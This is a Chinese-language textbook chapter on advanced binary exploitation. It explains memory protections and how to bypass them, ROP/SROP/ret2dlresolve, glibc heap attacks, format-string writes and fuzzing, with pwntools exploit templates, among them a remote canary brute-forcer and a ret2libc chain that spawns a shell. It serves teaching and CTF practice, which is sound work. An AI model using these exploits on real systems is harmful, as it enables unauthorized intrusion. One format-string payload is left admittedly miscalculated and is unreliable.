



# 第16章 二进制安全PWN - 深度拓展

本章是PWN技术的进阶全景图。前面的章节已经覆盖了栈溢出、堆利用、格式化字符串等核心攻击手法，本章将在此基础上做三件事：**夯实底层原理**（为什么这些保护机制存在、如何工作、如何被绕过），**拓展高级技术**（ROP、IO_FILE、内核利用、SROP），**展望前沿方向**（ARM64、WebAssembly、AI辅助挖掘）。每一节都配有代码示例、流程图和实操要点，确保读者不仅"知道"，更能"做到"。

## 一、二进制漏洞利用的理论基石

### 1.1 进程内存布局全景

理解进程内存布局是所有PWN技术的根基。一个Linux用户态进程的虚拟地址空间从低到高依次排列如下：

```mermaid
graph LR
    subgraph 低地址 0x0
        A["NULL 页<br/>(不可映射)"]
    end
    subgraph 0x400000
        B[".text 代码段<br/>(只读+可执行)"]
    end
    subgraph
        C[".rodata 只读数据"]
        D[".data 已初始化全局变量"]
        E[".bss 未初始化全局变量"]
    end
    subgraph 堆区
        F["Heap 堆<br/>(malloc分配, 向高地址增长)"]
    end
    subgraph mmap区
        G["共享库 libc.so / ld.so<br/>mmap映射区域"]
    end
    subgraph 栈区
        H["Stack 栈<br/>(向低地址增长)"]
    end
    subgraph 高地址 0x7fff...
        I["内核空间<br/>(用户态不可访问)"]
    end
    A --> B --> C --> D --> E --> F --> G --> H --> I
```

各区域的关键属性和安全意义：

| 区域 | 典型地址范围 | 读 | 写 | 执行 | 安全关注点 |
|------|-------------|----|----|------|-----------|
| .text | 0x400000 (无PIE) | ✓ | ✗ | ✓ | ROP gadget来源 |
| .rodata | .text之后 | ✓ | ✗ | ✗ | 格式化字符串常量 |
| .data | .rodata之后 | ✓ | ✓ | ✗ | 全局变量覆写目标 |
| .bss | .data之后 | ✓ | ✓ | ✗ | 未初始化变量、GOT |
| Heap | brk/mmap之上 | ✓ | ✓ | ✗* | 堆溢出、UAF、double free |
| mmap区 | 高于堆 | 取决于映射 | 取决于映射 | 取决于映射 | libc基址泄露目标 |
| Stack | 0x7fff...附近 | ✓ | ✓ | ✗* | 栈溢出、canary绕过 |

> 标记 ✗* 表示在启用NX/DEP时不可执行，但在关闭保护的老旧系统上可执行shellcode。

**关键理解**：每次你看到一个PWN题或真实漏洞，第一步就是在脑中构建目标进程的这张内存地图。你需要知道：输入数据最终落在哪个区域？你能控制哪些区域的写入？目标控制流的关键指针（返回地址、函数指针、vtable）存储在哪里？

### 1.2 内存保护机制深度解析

现代操作系统和编译器部署了多层防御机制。理解每层的原理和绕过方法，是PWN技术的核心：



#### 1.2.1 Stack Canary（栈保护）

**工作原理**：编译器在函数序言（prologue）中将一个随机值（canary）压入栈上，位于返回地址之前。函数返回前检查这个值是否被修改，如果被篡改则调用 `__stack_chk_fail` 终止程序。

```c
// 编译器生成的等效代码
void vulnerable_function(char *input) {
    unsigned long canary = __stack_chk_guard;  // 读取全局canary
    char buffer[64];
    strcpy(buffer, input);  // 可能溢出
    if (canary != __stack_chk_guard) {  // 检查canary
        __stack_chk_fail();  // 检测到溢出，终止
    }
}
```

**栈帧布局（有canary时）**：

```text
高地址
┌─────────────────────┐
│    函数参数           │
├─────────────────────┤
│    返回地址           │  ← 攻击者想覆盖的目标
├─────────────────────┤
│    saved RBP         │
├─────────────────────┤
│    Canary            │  ← 在这里！覆盖它会触发检测
├─────────────────────┤
│    局部变量 buffer    │  ← 溢出从这里开始
└─────────────────────┘
低地址
```

**绕过方法**：

1. **泄露canary值**：如果存在格式化字符串漏洞或另一次越界读取，可以先泄露canary，再在溢出时写回正确的值。对于fork服务器模型（每连接fork一次），canary在父子进程中相同，可以逐字节爆破。

2. **覆盖canary低位字节**：canary的最低字节固定为 `\x00`（防止字符串操作泄露）。如果溢出刚好覆盖到canary的第一个字节，而你使用的是逐字节写入（如 `read`），可以通过覆盖 `\x00` 之前的字节来部分篡改canary。

3. **利用其他漏洞**：如果存在UAF、堆溢出等漏洞，可以直接修改 `__stack_chk_guard` 全局变量。

```python
# pwntools爆破fork服务器canary的示例
from pwn import *

def leak_canary(offset):
    canary = b'\x00'  # 最低字节固定为0
    for i in range(1, 8):  # 逐字节爆破剩余7字节
        for byte in range(256):
            p = remote('target', 1337)
            payload = b'A' * offset + canary + bytes([byte])
            p.send(payload)
            try:
                if p.recv(timeout=1):  # 没崩溃=猜对了
                    canary += bytes([byte])
                    p.close()
                    break
            except:
                p.close()  # 崩溃=猜错了，继续
    return canary

canary = leak_canary(72)  # 偏移72到canary位置
log.success(f"Canary: {canary.hex()}")
```

#### 1.2.2 ASLR（地址空间布局随机化）

**工作原理**：每次程序运行时，操作系统随机化以下区域的基址：
- 栈基址：每次运行不同
- 堆基址：每次运行不同
- 共享库加载地址：每次运行不同
- 主程序基址：仅在PIE启用时随机化

可以通过 `/proc/<pid>/maps` 查看实际布局。随机化的粒度通常是页大小（4KB），即最低12位不变。

**绕过方法与适用场景**：

| 方法 | 原理 | 适用条件 | 难度 |
|------|------|---------|------|
| 信息泄露 | 通过格式化字符串/UAF等泄露一个指针，计算偏移 | 目标存在可读泄露漏洞 | 低 |
| 部分覆盖（Partial Overwrite） | 只覆写地址的低字节，利用高位不变的部分 | 程序无PIE，目标在同一4K页内 | 中 |
| 暴力破解（Brute Force） | 32位地址空间只有约8bit随机化，可穷举 | 32位程序 + fork模型（不改变ASLR） | 低 |
| ret2plt | 利用PLT中的固定地址调用泄露函数 | 程序无PIE | 低 |
| DynELF（pwntools） | 通过任意读原语遍历链接表泄露libc地址 | 有任意地址读能力 | 中 |

**部分覆盖的精确解释**：假设目标函数地址是 `0x7f12345678`，而你能覆写到 `0x7f123456XX`，只改最后1字节。由于ASLR通常只随机化高位（页对齐），低12位不变，你只需猜对最后1字节（或2字节）就能命中正确地址。在64位下概率约1/16（改低1字节高4位）或1/256（改低1字节全字节）。

#### 1.2.3 NX/DEP（数据执行保护）

**工作原理**：CPU的页表中有执行权限位。NX位为1的页面如果尝试执行代码，会触发段错误。栈和堆默认标记为不可执行。

**绕过技术对比**：

| 技术 | 原理 | 优点 | 缺点 |
|------|------|------|------|
| ret2libc | 跳转到libc中的system/execve | 简单直接 | 需要知道libc地址 |
| ROP | 链接现有代码片段(gadget) | 图灵完备 | 需要大量gadget |
| JOP | 利用间接跳转而非ret | 绕过某些ret过滤 | 构造更复杂 |
| SROP | 利用sigreturn系统调用 | 一次控制全部寄存器 | 需要可触发sigreturn |
| ret2dlresolve | 欺骗动态链接器解析任意符号 | 不需要libc地址 | 构造复杂 |

#### 1.2.4 PIE（位置无关可执行文件）

PIE与ASLR的区别：ASLR只随机化栈/堆/库，PIE额外随机化主程序本身的加载地址。这意味着程序内的 `.text`、`.data`、`.bss` 地址每次运行都不同。

```bash
# 检查PIE状态
checksec --file=./binary
# 或
file ./binary  # 显示 "shared object" 表示PIE，"executable" 表示非PIE
```

**绕过策略**：与ASLR相同——泄露一个已知地址的指针（如栈上的返回地址指向 `__libc_start_main+XX`），减去固定偏移得到基址。

#### 1.2.5 CFI（控制流完整性）与Shadow Stack

**CFI**：限制间接调用/跳转只能到合法目标。Clang CFI在编译时插入检查代码；Intel CET在硬件层面做检查。绕过思路包括：利用CFI允许的合法目标中的gadget，或者JIT-ROP（实时构造ROP链，只使用CFI允许的跳转目标）。

**Shadow Stack**：维护一个独立的、用户态不可写的栈，专门存放返回地址。函数返回时比较两个栈上的返回地址，不一致则终止。这直接防御了经典的ROP攻击。绕过思路：利用 `call`/`jmp` 而非 `ret` 的JOP技术，或者利用漏洞篡改Shadow Stack本身（如果存在内核级漏洞）。

## 二、高级利用技术详解

### 2.1 ROP（Return-Oriented Programming）完全指南

ROP是绕过NX的核心技术。其本质是：程序和libc中存在大量以 `ret` 结尾的短指令序列（gadget），通过精心构造栈上的返回地址链，将这些gadget串联起来，实现任意计算。

#### 2.1.1 ROP的图灵完备性

2007年，Shacham证明了在x86架构上，仅从现有代码中提取gadget就能构造图灵完备的计算系统。这意味着理论上可以实现任何计算，包括条件分支、循环和内存读写。

关键gadget模式：

```asm
; 寄存器赋值
pop rdi; ret          ; 设置第一个参数
pop rsi; pop r15; ret ; 设置第二个参数（64位常用）
pop rdx; ret          ; 设置第三个参数

; 内存读写
mov [rdi], rax; ret   ; 任意地址写
mov rax, [rdi]; ret   ; 任意地址读

; 系统调用
syscall; ret          ; 执行系统调用

; 栈迁移
leave; ret            ; mov rsp, rbp; pop rbp
pop rsp; ret          ; 直接设置栈指针
```

#### 2.1.2 实战：从gadget搜索到完整ROP链

以下是一个完整的ret2libc利用示例，目标是一个有栈溢出但开启了NX和Canary的程序：

```python
from pwn import *

# 1. 基本设置
context.binary = elf = ELF('./vuln')
libc = ELF('./libc.so.6')
context.log_level = 'info'

# 2. 搜索gadget
rop = ROP(elf)
# 查看可用gadget
print(rop.dump())

# 3. 构造ROP链 - 目标：调用 system("/bin/sh")
# 方法一：ret2libc（需要先泄露libc地址）
def exploit_ret2libc():
    p = process()
    
    # 第一阶段：泄露libc地址
    # 利用puts打印got表中已解析的libc函数地址
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    main_addr = elf.symbols['main']
    
    payload = b'A' * offset  # 填充到返回地址
    payload += p64(pop_rdi)   # pop rdi; ret
    payload += p64(puts_got)  # rdi = puts@got
    payload += p64(puts_plt)  # 调用puts(puts@got)
    payload += p64(main_addr) # 返回main，进行第二阶段
    
    p.sendline(payload)
    puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
    libc_base = puts_leak - libc.symbols['puts']
    log.success(f"libc base: {hex(libc_base)}")
    
    # 第二阶段：调用system("/bin/sh")
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
    
    payload = b'A' * offset
    payload += p64(pop_rdi)
    payload += p64(bin_sh_addr)
    payload += p64(system_addr)
    
    p.sendline(payload)
    p.interactive()
```

#### 2.1.3 高级ROP技术

**ret2csu**：利用 `__libc_csu_init` 中的通用gadget。这个函数在所有动态链接的ELF中都存在，提供了对 `rbx, rbp, r12, r13, r14, r15` 的控制，再通过一个间接调用将 `r13~r15` 的值传递给目标函数的 `rdx, rsi, rdi`。

```text
__libc_csu_init 中的关键gadget:

gadget1 (pop):          gadget2 (call):
pop rbx                 mov rdx, r14
pop rbp                 mov rsi, r13
pop r12                 mov edi, r12d
pop r13                 call [r15 + rbx*8]
pop r14
pop r15
ret
```

这意味着即使你找不到 `pop rdx; ret` 这样的gadget，也能通过ret2csu控制所有函数参数。

**ret2dlresolve**：当程序是静态链接或你无法泄露libc地址时，可以欺骗动态链接器来解析任意符号。核心思想是伪造 `Elf_Rel`、`Elf_Sym` 和字符串表条目，让 `dl-resolve` 将你指定的函数名（如 `system`）解析到libc中的实际地址。pwntools提供了 `Ret2dlresolvePayload` 类来自动化这个过程：

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

# pwntools自动构造ret2dlresolve payload
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.read(0, dlresolve.data_addr)  # 读入伪造的结构体
rop.ret2dlresolve(dlresolve)       # 触发dl-resolve

p.sendline(flat({offset: rop.chain()}))
p.sendline(dlresolve.payload)      # 发送伪造数据
p.interactive()
```

**SROP（Sigreturn-Oriented Programming）**：当gadget稀缺时，SROP是一种优雅的替代方案。Linux信号处理机制在用户态和内核态之间传递完整的寄存器上下文（Signal Frame）。`sigreturn` 系统调用会从栈上恢复整个寄存器状态。如果你能控制栈内容并触发 `sigreturn`，就能一次性设置所有寄存器：

```python
from pwn import *

context.binary = elf = ELF('./vuln')

# 构造Signal Frame
frame = SigreturnFrame()
frame.rax = 59          # sys_execve
frame.rdi = bin_sh_addr # "/bin/sh"地址
frame.rsi = 0           # argv = NULL
frame.rdx = 0           # envp = NULL
frame.rip = syscall_ret # syscall; ret地址
frame.rsp = 0xdeadbeef  # 新栈地址

payload = b'A' * offset
payload += p64(set_rax_15_gadget)  # rax = 15 (sys_rt_sigreturn)
payload += p64(syscall_ret)        # 触发sigreturn
payload += bytes(frame)            # 伪造的signal frame
```

### 2.2 堆利用高级技术

#### 2.2.1 glibc堆管理器内部机制

glibc的 `malloc` 使用 `ptmalloc2` 分配器。理解其内部结构是堆利用的基础：



**Tcache（Thread Cache）**：glibc 2.26引入，是现代堆利用的重点。每个线程有64个tcache bin（大小从0x20到0x410，步长0x10），每个bin最多缓存7个chunk。tcache使用单链表（只有fd指针），**不检查** fd指针的有效性——这是现代堆攻击的主要切入点。

```c
// glibc源码中的tcache_put（简化）
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
    tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
    e->key = tcache_key;  // glibc 2.29+的double free检测
    e->next = tcache->entries[tc_idx];  // 直接链入，无验证
    tcache->entries[tc_idx] = e;
}
```

#### 2.2.2 堆漏洞利用技术详解

**Tcache Poisoning（glibc 2.26~2.28）**：由于tcache不验证fd指针，只需要一个堆溢出或UAF修改chunk的fd指针，就能在下次malloc时返回任意地址：

```python
# Tcache Poisoning示例
# 假设目标程序有两个UAF漏洞（free后未置NULL）

# 分配两个相同大小的chunk
p.sendlineafter(b'> ', b'1')  # alloc(0x20)
p.sendlineafter(b'> ', b'1')  # alloc(0x20)

# 释放两个chunk（进入tcache）
p.sendlineafter(b'> ', b'2')  # free(chunk0)
p.sendlineafter(b'> ', b'2')  # free(chunk1)
# tcache: chunk1 -> chunk0 -> NULL

# 通过UAF修改chunk0的fd指针
target_addr = 0x601060  # 目标地址（如__free_hook）
p.sendlineafter(b'> ', b'3')  # edit(chunk0)
p.sendlineafter(b'> ', p64(target_addr))
# tcache: chunk1 -> chunk0 -> target_addr

# 第一次malloc返回chunk1
p.sendlineafter(b'> ', b'1')
# 第二次malloc返回chunk0
p.sendlineafter(b'> ', b'1')
# 第三次malloc返回target_addr！
p.sendlineafter(b'> ', b'1')
# 现在可以写入__free_hook = system
p.sendlineafter(b'> ', p64(system_addr))
```

**Tcache Stashing Unlink Attack**：利用从small bin向tcache转移chunk时的链表操作漏洞。当tcache未满时，malloc会从small bin中取出chunk放入tcache，这个过程中对bk指针的处理存在漏洞——可以将一个chunk的地址写入任意位置。

**House of Botcake（glibc 2.26+）**：结合tcache和unsorted bin的攻击。核心思路是：先填满tcache（7个chunk），再释放一个chunk到unsorted bin，然后利用double free将同一个chunk同时放入tcache和unsorted bin，最后通过unsorted bin attack获取更大的写入能力。

**IO_FILE利用（glibc 2.24~2.31）**：

glibc的文件I/O操作通过 `_IO_FILE` 结构体实现。每个FILE结构体包含一个虚函数表（`_IO_jump_t`），在文件操作（如 `fclose`、`fwrite`）时会调用这些函数指针。如果能伪造一个FILE结构体并控制其vtable，就能劫持控制流。

```c
// 简化的_IO_FILE结构体（关键字段）
struct _IO_FILE {
    int _flags;              // 0x00
    char *_IO_read_ptr;      // 0x08
    char *_IO_read_end;      // 0x10
    char *_IO_read_base;     // 0x18
    char *_IO_write_base;    // 0x20
    char *_IO_write_ptr;     // 0x28
    char *_IO_write_end;     // 0x30
    // ... 更多字段 ...
    struct _IO_FILE *_chain; // 0x68 - 链表指针
    int _fileno;             // 0x70
    // ... 
    size_t __pad2;
    void *_vtable;           // 0xd8 - 虚函数表指针！
};
```

**FSOP（File Stream Oriented Programming）**：当程序调用 `exit()` 或触发 `malloc_printerr` 时，glibc会遍历 `_IO_list_all` 链表，对每个FILE调用 `_IO_OVERFLOW`。如果能伪造这个链表，就能在遍历过程中执行任意代码。

**House of Cat（glibc 2.35+）**：在glibc 2.35中，vtable检查被加强（`_IO_validate_vtable`），但 `_IO_str_overflow` 函数仍然可以通过设置特定字段来调用 `malloc` 和 `free`，配合堆布局可以实现任意读写。

#### 2.2.3 堆利用的调试方法

堆利用的最大难点是理解堆的状态。以下是实用的调试方法：

```python
# GDB + pwndbg/GEF 堆调试命令

# pwndbg命令
heap          # 显示所有堆chunk
bins          # 显示所有bin（fastbin, tcache, unsorted等）
arena         # 显示main_arena状态
vis_heap_chunks  # 可视化堆布局

# GEF命令
heap chunks   # 列出所有chunk
heap bins     # 显示bin链表
python hex(next(gdb.parse_and_eval('(void*)main_arena.top').address))  # 获取top chunk地址

# 手动查看chunk内容
x/16gx <chunk_addr>    # 查看chunk头部和数据
x/4gx <chunk_addr>-16  # 从prev_size开始查看
```

**堆调试清单**：
1. 分配后确认chunk地址和size是否正确
2. 释放后确认chunk进入正确的bin（tcache/fastbin/unsorted）
3. 检查fd/bk指针是否指向预期的下一个chunk
4. 确认PREV_INUSE标志位状态
5. 验证tcache计数是否正确

### 2.3 格式化字符串漏洞深度利用

#### 2.3.1 任意地址写的精确控制

格式化字符串的 `%n` 系列写入利用了 `printf` 的一个设计特性：`%n` 会将当前已输出的字符数写入指定地址。配合 `%<N>c`（输出N个字符的填充）可以精确控制写入值。

**写入策略（以32位为例）**：

假设目标地址是 `0x0804A024`，要写入值 `0x08048530`：

```text
地址: 0x0804A024  → 写入 0x530 (1328)
地址: 0x0804A026  → 写入 0x0804 (2052)
```

使用 `%hn` 写入2字节对：

```python
from pwn import *

target = 0x0804A024
value = 0x08048530

# 构造payload
# 偏移7处是格式化字符串本身的起始位置（通过%p测试得到）
payload = p32(target)       # 写入 0x530 到 0x0804A024
payload += p32(target + 2)  # 写入 0x0804 到 0x0804A026
# 前面输出了8字节
payload += b'%1320c%7$hn'   # 1320 + 8 = 1328 = 0x530
payload += b'%7172c%8$hn'   # 7172 + 1328 = 8500... 不对，需要精确计算
```

实际编写时推荐使用pwntools的 `fmtstr_payload` 自动化：

```python
from pwn import *

# 自动构造格式化字符串写入payload
writes = {0x0804A024: 0x08048530}
payload = fmtstr_payload(7, writes, write_size='short')
# 参数7表示格式化字符串在栈上的偏移
# write_size: 'byte'=%hhn, 'short'=%hn, 'int'=%n
```

#### 2.3.2 格式化字符串的高级技巧

**GOT覆盖**：覆盖某个被调用函数的GOT条目（如 `printf` 的GOT指向 `system`），下次调用该函数时就会执行system。

**栈上任意读**：利用 `%<N>$s` 读取栈上某个指针指向的字符串，可以泄露canary、libc地址、堆地址等。

**盲打格式化字符串**：当格式化字符串的位置未知时，用 `%p.%p.%p...` 逐个探测栈上内容，确定偏移量。

## 三、漏洞挖掘方法论

### 3.1 静态分析实战

#### 3.1.1 反汇编工具对比与选择

| 工具 | 优势 | 劣势 | 适用场景 |
|------|------|------|---------|
| IDA Pro | 业界标准，反编译质量最高（Hex-Rays） | 价格昂贵，闭源 | 专业逆向、商业项目 |
| Ghidra | 免费开源，反编译器质量接近IDA | 界面不够流畅，Java资源占用大 | 学习、预算有限的团队 |
| Binary Ninja | 现代化UI，Python API设计优秀 | 中间语言（IL）学习曲线 | 自动化分析、脚本开发 |
| Radare2/Rizin | 命令行工具，极轻量，可嵌入脚本 | 学习曲线极陡 | 自动化、嵌入式分析 |

#### 3.1.2 静态分析的关键模式

**危险函数搜索**：在代码中搜索已知的不安全函数调用：

```text
高危函数（必须检查）：
  strcpy, strcat, sprintf, gets, scanf("%s")
  → 没有长度限制，直接溢出风险

中危函数（需要检查参数）：
  strncpy, strncat, snprintf, fgets
  → 参数错误时仍然不安全（如snprintf的大小计算错误）

间接危险模式：
  memcpy(dst, src, user_controlled_size)
  → 如果size来自用户输入，可能存在整数溢出
  read(fd, buf, size) 中size可控
  malloc(size) 中size可控 → 整数溢出导致小分配
```

**数据流追踪**：使用Ghidra的脚本或BinDiff追踪用户输入从入口点到敏感操作的完整路径。关键问题：输入是否经过长度检查？边界检查的条件是否正确？是否有整数溢出绕过？

### 3.2 动态分析与Fuzzing

#### 3.2.1 Fuzzer选择与配置

**覆盖率引导的Fuzzer（AFL++）**：

```bash
# AFL++ 基本使用
# 1. 编译目标（插桩模式）
CC=afl-clang-lto CXX=afl-clang-lto++ ./configure --disable-shared
make

# 2. 准备种子文件
mkdir input
echo "seed_input" > input/seed.txt

# 3. 运行fuzzer
afl-fuzz -i input -o output -t 1000 ./target @@

# 4. 并行fuzzing（多实例）
afl-fuzz -i input -o output -M master ./target @@
afl-fuzz -i input -o output -S slave1 ./target @@
afl-fuzz -i input -o output -S slave2 ./target @@
```

**LibFuzzer（进程内fuzzer，适合库函数）**：

```cpp
// fuzz_target.cpp
#include <stdint.h>
#include <stddef.h>

extern "C" int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    // 调用目标函数
    target_function(data, size);
    return 0;
}
```

```bash
# 编译并运行
clang++ -g -fsanitize=fuzzer,address fuzz_target.cpp -o fuzz_target
./fuzz_target -max_len=1024 -timeout=10
```

#### 3.2.2 污点分析与符号执行

**angr 符号执行示例**：

```python
import angr
import claripy

# 加载二进制
proj = angr.Project('./target', auto_load_libs=False)

# 创建符号输入
input_size = 32
sym_input = claripy.BVS('input', input_size * 8)

# 初始状态
state = proj.factory.entry_state(stdin=sym_input)

# 创建模拟管理器
simgr = proj.factory.simulation_manager(state)

# 探索：找到"成功"路径，避免"失败"路径
simgr.explore(find=lambda s: b"Success" in s.posix.dumps(1),
              avoid=lambda s: b"Fail" in s.posix.dumps(1))

if simgr.found:
    found = simgr.found[0]
    # 解出满足条件的输入
    solution = found.solver.eval(sym_input, cast_to=bytes)
    print(f"Input that reaches success: {solution}")
```

### 3.3 现代漏洞挖掘中的AI辅助

AI在二进制安全中的应用已经从研究走向实践：

**代码审计自动化**：GPT-4、Claude等大语言模型能够理解C/C++代码语义，识别潜在漏洞。工具如 `Joern`（基于代码属性图的静态分析）结合LLM可以将可疑代码片段自动分析为具体的漏洞报告。

**智能Fuzzing**：传统覆盖率引导Fuzzer在某些路径上会陷入瓶颈（如需要特定magic值才能通过的条件分支）。AI可以通过学习已发现的路径来生成更有针对性的测试用例。典型案例包括Google的OSS-Fuzz和Microsoft的RESTler。

**二进制相似性分析**：当新版本的库发布时，可以通过代码相似性分析快速定位已修补的漏洞在旧版本中的位置。工具如 `Gemini`、`BinaryAI` 使用图神经网络对函数的控制流图进行嵌入比较。

**局限性**：当前AI在二进制安全中的局限性包括：对复杂堆利用链的理解能力有限，误报率较高，对混淆代码的处理能力不足。AI是辅助工具而非替代品，最终的安全判断仍然需要人类专家。

## 四、行业前沿方向

### 4.1 ARM64架构安全

随着Apple Silicon、AWS Graviton和移动设备的普及，ARM64已成为不可忽视的目标架构。

**ARM64 vs x86_64 的PWN差异**：

| 方面 | x86_64 | ARM64 (AArch64) |
|------|--------|-----------------|
| 参数传递 | rdi, rsi, rdx, rcx, r8, r9 | x0~x7 |
| 返回地址 | 栈上 | x30 (LR寄存器) + 栈上 |
| 调用约定 | ret从栈弹出跳转 | ret使用LR或栈 |
| 指令长度 | 变长(1~15字节) | 固定4字节 |
| 系统调用 | syscall | svc #0 |
| 栈对齐 | 16字节 | 16字节 |

**ARM64特有的保护机制**：

- **PAC（Pointer Authentication Code）**：在指针的高位嵌入加密签名，使用PACIA/PACIB指令签名，AUTIA/AUTIB指令验证。攻击者无法伪造签名后的指针。绕过思路：利用未签名的代码路径，或PAC Oracle（通过错误消息推断正确的PAC值）。

- **MTE（Memory Tagging Extension）**：为每个内存分配和指针分配4位标签，访问时检查标签是否匹配。类似于硬件级的ASan。这将大幅提高UAF和堆溢出的利用难度。绕过思路：标签碰撞（4位只有16种标签）、时间窗口攻击（标签在free和实际回收之间可能被复用）。

- **BTI（Branch Target Identification）**：类似于CFI，限制间接跳转只能到合法的分支目标（以 `BTI` 指令开头的位置）。

### 4.2 WebAssembly安全

WebAssembly（Wasm）正从浏览器扩展到服务端（WASI）、区块链智能合约和边缘计算，带来了新的攻击面。

**Wasm安全模型**：Wasm运行在沙箱中，有独立的线性内存空间，不能直接访问宿主内存。但Wasm模块之间可以通过接口传递数据，这里存在安全风险。

**Wasm漏洞类型**：
- **整数溢出**：Wasm使用固定宽度整数（i32/i64），没有溢出保护，且边界检查可能不充分
- **类型混淆**：Wasm的函数引用（funcref）如果被错误类型化，可能跳转到非预期函数
- **内存越界**：`wasm-bindgen` 等绑定层在转换JS和Wasm数据时可能引入越界访问
- **沙箱逃逸**：通过精心构造的Wasm模块触发宿主环境的漏洞

